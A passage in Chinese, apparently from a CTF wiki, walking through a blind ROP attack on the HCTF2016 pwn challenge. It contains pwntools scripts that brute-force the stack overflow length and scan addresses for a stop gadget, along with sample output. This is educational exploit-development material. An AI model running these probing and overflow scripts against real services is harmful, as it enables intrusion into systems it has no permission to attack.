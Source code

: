 ### 例子

這裏我們以 [HCTF2016的出題人失蹤了](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/stackoverflow/brop/hctf2016-brop) 爲例。基本思路如下

#### 確定棧溢出長度

```python
def getbufferflow_length():
    i = 1
    while 1:
        try:
            sh = remote('127.0.0.1', 9999)
            sh.recvuntil('WelCome my friend,Do you know password?\n')
            sh.send(i * 'a')
            output = sh.recv()
            sh.close()
            if not output.startswith('No password'):
                return i - 1
            else:
                i += 1
        except EOFError:
            sh.close()
            return i - 1
```

根據上面，我們可以確定，棧溢出的長度爲72。同時，根據回顯信息可以發現程序並沒有開啓canary保護，否則，就會有相應的報錯內容。所以我們不需要執行stack reading。

#### 尋找 stop gadgets

尋找過程如下

```python
def get_stop_addr(length):
    addr = 0x400000
    while 1:
        try:
            sh = remote('127.0.0.1', 9999)
            sh.recvuntil('password?\n')
            payload = 'a' * length + p64(addr)
            sh.sendline(payload)
            sh.recv()
            sh.close()
            print 'one success addr: 0x%x' % (addr)
            return addr
        except Exception:
            addr += 1
            sh.close()
```

這裏我們直接嘗試64位程序沒有開啓PIE的情況，因爲一般是這個樣子的，，，如果開啓了，，那就按照開啓了的方法做，，結果發現了不少，，我選擇了一個貌似返回到源程序中的地址

```text
one success stop gadget addr: 0x4006b6
```
